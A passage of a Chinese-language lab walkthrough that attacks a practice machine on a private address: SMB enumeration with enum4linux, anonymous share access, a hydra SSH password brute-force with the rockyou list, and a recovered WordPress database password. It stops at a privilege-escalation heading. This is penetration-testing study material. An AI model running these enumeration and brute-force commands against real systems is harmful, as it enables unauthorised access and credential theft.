 # 漏洞利用

## smb枚举`enum4linux 192.168.247.130`

nmap漏洞扫描发现有smb枚举

> SMB全称是Server Message Block(服务器消息块)，又称网络文件共享系统，是一种应用层网络传输协议。SMB被广泛地应用于在计算机间共享文件、端口、命名管道和打印机等。系统上的不同应用程序可以同时读取和写入文件，并向服务器请求服务。 此外，SMB可以直接在TCP/IP或其他网络协议上运行。通过SMB，用户或任何经授权的应用程序都可以访问远程服务器上的文件或其他资源，并且可以执行读取、创建和更新数据等操作。

得到用户和密码都为空，且共享目录为：`//192.168.247.130/share$`

使用远程挂载或者win直连

![image-20230304152706203](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230304152706203.png)l

## 来到网站后台目录，拿到read-only权限查看信息：

密码：

![image-20230304152908388](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230304152908388.png)

ssh密码：`hydra -l togie -P /usr/share/wordlists/rockyou.txt.gz 192.168.247.130 ssh`

![image-20230304155220183](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230304155220183.png)

配置信息：

![image-20230304154847519](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230304154847519.png)

获得数据库密码，后台密码：

```
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
```

# 登录ssh,提权：
